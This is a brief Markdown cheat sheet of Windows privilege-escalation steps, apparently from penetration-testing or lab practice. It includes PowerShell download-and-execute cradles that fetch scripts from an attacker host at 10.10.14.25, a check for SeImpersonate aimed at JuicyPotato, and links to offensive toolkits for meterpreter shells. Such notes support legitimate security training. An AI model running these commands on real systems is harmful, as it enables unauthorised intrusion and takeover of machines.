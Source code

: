 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```text
whoami /priv
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```text
iex(new-object net.webclient).downloadstring('http://10.10.14.25/esc.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```text
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

